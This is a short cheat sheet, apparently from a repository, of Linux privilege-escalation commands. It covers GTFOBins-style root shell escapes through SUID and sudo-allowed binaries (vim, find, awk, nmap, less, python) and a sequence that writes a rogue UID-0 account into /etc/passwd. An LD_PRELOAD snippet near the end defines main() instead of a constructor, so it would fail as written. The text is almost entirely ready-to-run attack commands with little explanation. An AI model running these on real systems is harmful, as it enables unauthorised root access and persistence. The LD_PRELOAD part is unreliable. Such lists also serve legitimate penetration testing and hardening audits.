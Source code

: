 ### SUID Binary Exploitation Advanced

#### Common SUID Binaries for PrivEsc
```bash
# Find all SUID binaries
find / -type f -perm -4000 2>/dev/null

# GTFOBins exploitation patterns:

# vim/nano
vim -c ':!/bin/sh'
nano
^R^X
reset; sh 1>&0 2>&0

# find
find . -exec /bin/sh \; -quit
find . -exec whoami \;

# awk
awk 'BEGIN {system("/bin/sh")}'

# nmap (older versions)
nmap --interactive
!sh

# less/more
less /etc/hosts
!/bin/sh

# cp (if SUID)
cp /etc/passwd /tmp/passwd
echo 'root2:$1$salt$hash:0:0:root:/root:/bin/bash' >> /tmp/passwd
cp /tmp/passwd /etc/passwd
su root2
```

### Sudo Misconfigurations

#### Comprehensive Sudo Analysis
```bash
# Check sudo permissions
sudo -l

# Common sudo misconfigurations:

# ALL=(ALL) NOPASSWD: ALL
sudo su -

# (root) NOPASSWD: /usr/bin/vim
sudo vim -c ':!/bin/sh'

# (root) NOPASSWD: /usr/bin/find
sudo find . -exec /bin/sh \; -quit

# (root) NOPASSWD: /usr/bin/awk
sudo awk 'BEGIN {system("/bin/sh")}'

# (root) NOPASSWD: /usr/bin/python*
sudo python -c 'import os; os.system("/bin/sh")'

# LD_PRELOAD exploitation (if env_keep+=LD_PRELOAD)
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); }' > shell.c
```